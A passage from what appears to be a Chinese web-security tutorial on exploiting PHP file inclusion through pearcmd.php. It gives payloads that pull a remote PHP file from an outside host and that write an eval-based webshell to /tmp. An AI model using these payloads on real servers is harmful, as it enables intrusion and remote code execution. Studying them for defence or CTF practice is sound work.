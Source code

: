 利用方式

```
/?include=/usr/local/lib/php/pearcmd.php&+install+http://y1ng.vip/y1ng.php
/?include=/usr/local/lib/php/pearcmd.php&+download+http://y1ng.vip/y1ng.php
```

用`install`会下载到`/tmp`目录下，用`download`会下载到当前目录（但是大部分情况当前目录都没有可写权限，所以推荐用`install`）

![](./img/include_7.png)

### 靶机不能出网

写`shell`：

```
/?include=/usr/local/lib/php/pearcmd.php&+config-create+/<?=eval($_POST[y1ng])?>+/tmp/y1ng.php
```

注意这里需要`burp`发包，不可用浏览器

![](./img/include_8.png)

![](./img/include_9.png)

不可直接用浏览器的原因是，浏览器会自动把`php`代码中的`< >`给`url`编码，实际写入的是`%3C?=eval($_POST[y1ng])?%3E`，导致`php`执行失败

## 绕过包含次数限制
